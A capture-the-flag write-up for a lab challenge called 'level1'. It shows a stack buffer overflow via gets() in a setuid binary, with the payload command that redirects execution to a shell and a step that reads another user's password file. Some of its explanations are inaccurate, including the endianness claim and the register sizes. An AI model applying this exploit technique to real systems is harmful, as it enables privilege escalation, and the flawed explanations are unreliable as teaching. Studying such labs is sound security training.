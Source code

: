 # Level1

## Resolution
 * There is one file in our home, ```level1```, belonging to ```level2``` user, with suid.
 * Here's the hand-decompiled source code we propose for this binary:
 
 <%@include file="source.c"%>

 * We run the program with gdb and we observe that:
	* `main()` makes use of `gets()` with an on stack array of size 0x40
	* There is an unused function nammed `run` at `0x08048444` which executes `system("/bin/sh")`

 * We have the appropriate setup for a Buffer-Overflow attack:
    * We want to modify the `POP EIP` instruction (or equivalently `RET` instruction).
		* It normally allows to continue the execution of the parent function
		* Here we instead want to execute the `run()` function
	* When `gets()` is called we want to write past through the buffer, here is the stack layout:
		* [gets arg :	64 octets] -> We can write any value here
		* [EBP:			8 octetcs] -> We would like to conserve this value so we avoid segfalut
		* [EIP:			8 octetcs] -> We want to change this value so it points to `run()`, it needs to be `0x08048444`
	
 * We now have to put all this theory in practice, keeping in mind the stack uses Big Endian

 1. Lets prepare our string for the Buffer-Overflow attack:
 ```sh
python -c "print('x' * 76 + '44840408'.decode('hex'))" > /var/crash/lvl1
 ```
 2. Now we want to use the content of lvl1 as stdin for gets,
 and then manually get access to stdin once `system("/bin/sh")` is executed.
 For this we can use cat, with `-` as a second argument, so once the file has been read,
 cat will transmit stdin :
 ```sh
 cat /var/crash/lvl1 - | ./level1
 ```

 3. We now are in the shell session, and we can simply cat the content `.pass` with: 
 ```
 cat /home/user/level2/.pass
 ```
